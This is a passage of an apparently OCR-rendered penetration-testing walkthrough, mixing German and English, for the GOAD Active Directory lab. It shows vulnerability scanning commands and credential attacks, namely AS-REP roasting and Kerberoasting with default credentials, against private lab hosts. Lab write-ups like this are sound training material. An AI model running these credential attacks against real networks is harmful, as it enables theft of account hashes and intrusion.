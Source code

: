 **Kritischer Fund:** SMB-Signierung deaktiviert auf BRAAVOS (192.168.20.23)

---

## Phase 3: Vulnerability Assessment

### 3.1 Automated Vulnerability Scanning

#### Nuclei Comprehensive Scan
```bash
# High/Critical Vulnerabilities fokussiert
nuclei -list targets.txt -severity high,critical -o nuclei_critical.txt

# Specific Technology Stacks
nuclei -list targets.txt -tags microsoft,iis,mssql,windows -o nuclei_windows.txt

# Custom GOAD Templates (falls vorhanden)
nuclei -list targets.txt -t ~/.nuclei-templates/custom/goad/ -o nuclei_goad_custom.txt
```

#### Manual Vulnerability Verification
```bash
# HTTP TRACE Test
curl -X TRACE http://192.168.20.10/
curl -X TRACE http://192.168.20.22/
curl -X TRACE http://192.168.20.23/

# SSL/TLS Certificate Analysis  
sslscan 192.168.20.10:636
sslscan 192.168.20.22:1433
sslscan 192.168.20.23:1433
```

### 3.2 Active Directory Specific Vulnerabilities

#### Pre-Authentication & Kerberos Issues
```bash
# User-Liste für AS-REP Roasting sammeln
# (Wenn möglich via LDAP oder bekannte Accounts)
echo -e "administrator\nguest\nkrbtgt\nbrandon.stark\njon.snow\nsansa.stark" > users.txt

# AS-REP Roasting versuchen
GetNPUsers.py north.sevenkingdoms.local/ -dc-ip 192.168.20.11 -usersfile users.txt -outputfile asrep_hashes.txt

# Kerberoasting (erfordert gültige Credentials)
# Zunächst mit default/weak credentials versuchen
GetUserSPNs.py north.sevenkingdoms.local/hodor:hodor -dc-ip 192.168.20.11 -outputfile kerberoast.txt
```

---
